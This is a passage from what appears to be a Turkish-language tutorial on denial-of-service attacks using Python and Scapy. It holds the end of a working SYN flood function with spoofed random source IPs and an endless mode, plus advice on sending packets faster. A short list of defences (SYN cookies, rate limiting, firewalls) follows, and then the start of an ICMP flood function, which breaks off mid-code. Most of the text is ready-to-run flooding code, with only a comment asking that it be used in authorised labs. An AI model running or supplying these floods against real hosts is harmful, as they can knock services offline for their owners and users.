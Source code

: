 ```python
                packet_count +=1
                print(f"\r[*] Gönderilen paket: {packet_count}", end="")
                sys.stdout.flush()
        except KeyboardInterrupt:
            print(f"\n[+] Toplam {packet_count} paket gönderildi. Durduruldu.")
    else:
        for i in range(num_packets):
            source_ip = str(RandIP())
            source_port = RandShort()
            packet = IP(src=source_ip, dst=target_ip)/TCP(sport=source_port, dport=target_port, flags="S")
            send(packet, verbose=False)
            if (i + 1) % 100 == 0: # Her 100 pakette bir bilgi ver
                print(f"\r[*] Gönderilen paket: {i + 1}/{num_packets}", end="")
                sys.stdout.flush()
        print(f"\n[+] Toplam {num_packets} paket gönderildi.")

# Kullanım örneği (ÇOK DİKKATLİ KULLANIN, SADECE İZİNLİ TEST ORTAMINDA):
# Kendi sanal makinenizde bir web sunucusu (örn: Apache) kurup ona karşı test edebilirsiniz.
# syn_flood("192.168.1.X", 80, num_packets=5000) # Hedef IP'yi ve portu ayarlayın
# syn_flood("192.168.1.X", 80, num_packets=0) # Sonsuz mod
```
**Not:** `send()` fonksiyonu varsayılan olarak her paketten sonra küçük bir bekleme yapar. Çok yüksek hızda paket göndermek için `send(..., inter=0)` kullanılabilir veya daha gelişmiş paket gönderme motorları (örn: `PF_RING`, `DPDK` destekli Scapy versiyonları veya alternatif araçlar) gerekebilir. Ancak Scapy'nin standart `send` fonksiyonu bile birçok sistemi test etmek için yeterli olabilir.

**Savunma Yöntemleri:**
*   **SYN Cookies:** Sunucu, yarı açık bağlantı tablosu dolmaya başladığında TCB ayırmak yerine, bağlantı bilgilerini kriptografik olarak kodlayarak SYN/ACK paketinin sequence numarasına ekler. İstemci geçerli bir ACK ile dönerse, sunucu bu bilgiyi çözerek bağlantıyı kurar.
*   **Bağlantı Sınırları ve Zaman Aşımları:** IP başına izin verilen yarı açık bağlantı sayısını sınırlamak ve zaman aşımlarını düşürmek.
*   **Firewall'lar ve IPS Sistemleri:** Anormal sayıda SYN isteğini tespit edip engelleyebilirler.
*   **Rate Limiting:** Bir kaynaktan gelen bağlantı isteklerinin hızını sınırlamak.

### ICMP Flood
Hedefe çok sayıda ICMP Echo Request (ping) paketi göndererek ağ bant genişliğini veya hedef sistemin işlemci kaynaklarını tüketmeyi amaçlar.

```python
from scapy.all import IP, ICMP, Raw, send, RandIP, RandString

def icmp_flood(target_ip, num_packets=1000, payload_size=64):
    """
    Hedef IP'ye ICMP (ping) flood saldırısı simülasyonu yapar.
    payload_size: Her ICMP paketinin veri yükü boyutu.
    """
    print(f"[*] {target_ip} adresine ICMP Flood başlatılıyor (Paket sayısı: {num_packets}, Yük boyutu: {payload_size} byte)...")
    
    if num_packets == 0:
